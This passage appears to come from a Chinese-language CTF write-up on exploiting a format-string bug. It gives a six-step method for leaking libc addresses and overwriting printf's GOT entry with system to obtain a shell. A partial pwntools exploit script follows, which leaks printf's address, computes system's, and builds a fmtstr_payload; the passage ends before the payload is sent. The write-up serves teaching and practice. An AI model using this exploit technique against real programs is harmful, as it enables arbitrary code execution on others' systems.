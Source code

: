 > 注：这里由于是leak下来的二进制，没有偏移，我们需要手动rebase。
>
> ![rebase](http://momomoxiaoxi.com/img/post/Fmtstr/rebase.png)

得到printf@plt地址：

![printf](http://momomoxiaoxi.com/img/post/Fmtstr/printf.png)

接下来就是覆盖got表并获取shell的流程是（以覆盖printf的got表为例）：

1. 确定printf的plt地址
2. 通过泄露plt表中的指令内容确定对应的got表地址
3. 通过泄露的got表地址泄露printf函数的地址
4. 通过泄露的printf的函数地址确定libc基址，从而获得system地址
5. 使用格式化字符串的任意写功能将printf的got表中的地址修改为system的地址
6. send字符串“/bin/sh;”，那么在调用printf(“/bin/sh;”)的时候实际上调用的是system(“/bin/sh;”)，从而成功获取shell

### EXP

#### 本地EXP

PS: 考虑万一做不出来，就给Binary和libc，降低题目难度。

```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

context.log_level = 'debug'
debug = 1
if debug:
	p = process('./leakmemory')
	libc = ELF('/lib/i386-linux-gnu/libc.so.6')

p.recv()
p.sendline('moxiaoxi')
p.recv()

elf = ELF('./leakmemory')

plt_printf = elf.symbols['printf']

got_printf = elf.got['printf']


libc_system = libc.symbols['system']
libc_printf = libc.symbols['printf']


# 获取printf的libc地址
leak_payload = "%8$s" + p32(got_printf)

p.sendline(leak_payload)
info = p.recv()
data = info[23:27]
print(data.encode('hex'))

# 计算system的libc地址
printf_addr = u32(data)
libc_base = printf_addr - libc_printf   

system_addr = libc_base + libc_system

# 生成payload
payload = fmtstr_payload(7, {got_printf: system_addr})
```